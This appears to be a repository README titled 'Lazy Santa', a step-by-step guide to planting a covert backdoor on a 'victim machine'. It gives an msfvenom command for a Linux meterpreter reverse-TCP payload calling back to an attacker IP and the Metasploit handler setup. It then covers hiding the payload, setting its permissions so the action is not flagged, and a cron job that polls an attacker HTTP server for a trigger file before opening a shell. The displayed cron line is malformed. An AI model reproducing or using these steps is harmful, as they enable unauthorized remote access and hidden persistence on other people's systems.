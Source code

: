 # Lazy Santa

## Setting up the Payload

to make things nice and easy, we will be setting up a meterpreter right from the get go.  I have included an example payload, but you can make modifications as you see fit.  

```
msfvenom -p linux/x86/meterpreter_reverse_tcp lhost=192.168.98.160 lport=4444 -f elf -o coming_home.elf
```
Obviously you will need to change the `lhost` other than that it should work out of the box. 


## Setting up Metasploit

In metasploit run the following commands individually:

```
use exploit/multi/handler
```
```
set payload linux/x86/meterpreter_reverse_tcp
```

Once all the options are tweaked for your set up use
```
run 
```
or
```
exploit
```
to get everything in motion.  Now at this point you will just be waiting for the call home from the victim machine.

Remember that if you want to re-establish the connection you will need to leave the "key file" in the http server that you specified in the cron job.  If you don't want the victim to try and reconnect then make sure that you remove the key file or stop the http server to cause an other than `200` HTTP response code.  


## Getting the Victim Machine Ready

### The Payload 

The first thing you will need to do is get the payload on the victim machine.  Once you have done that you will need to make sure that is can be executed.  The best way to do this is you use the `u+x` chmod flag.  Otherwise you may be prompted for a sudo password.  By only making the current user be able to run it we can avoid that action getting denied and flagged.  

Use this: 
```
chmod u+x [file_name]
```

Next hide this payload somewhere where it will not be stumbled uppon unless someone is looking for it.  Be sure to specify the file path in the script that the cron job will call.  You could also hide the script that the cron job calls in the same location as the payload.  

### The Cron Job

Essentially we are creating a login bomb.  When certain criteria are met then a meterpeter session is opened. As such, you could theoretically set the shell up around any trigger but for ease we will use cron to just check in periodically.  

For adding this all to the cron tab I have found to have the best success using ssh instead of dropping into a shell from meterpreter.  There are definitely other ways, but if it works....

Also, I rarely try and set up cron jobs by hand.  Take it easy on yourself and use a cron job calculator to get everything just right.  Besides, you may only have one shot to get this right before your window of oppurtunity closes. Nailed it the first time. [This site is useful for that purpose.](https://crontab.guru/)

Though if you just want this to run every minute it is pretty easy to remember:

```
* * * * /path/to/file/
```


## Making it all work

### HTTPServer

The magic happens on the attacks machine.  Using a python module called SimpleHTTPServer we can set up a server that can contain our key file.  This is the server that the victim machine will call back to.  

First, for this to work you will need python3 installed: 

```
sudo apt update -y && sudo apt upgrade -y && sudo apt autoremove -y && sudo apt install python3
```

To start the server:

```
python -m SimpleHTTPServer
```

Keep in mind that whatever directory you start the server in, is the content it will server.  I like to create a designated directory to run the server in.  In you want the victim machine to set up a new session:

```
touch /path/to/server/callme
```
If you have a session established, remove the key file so that the victim machine does not keep try to set up a session every time the cron job is run.

That is pretty much it.  Once the cron job is set then it will check at the specified time if the remote resource is available.  If it is, then it open the meterpreter session.  If not, then it waits until the next time, working on a loop until the logic is met.





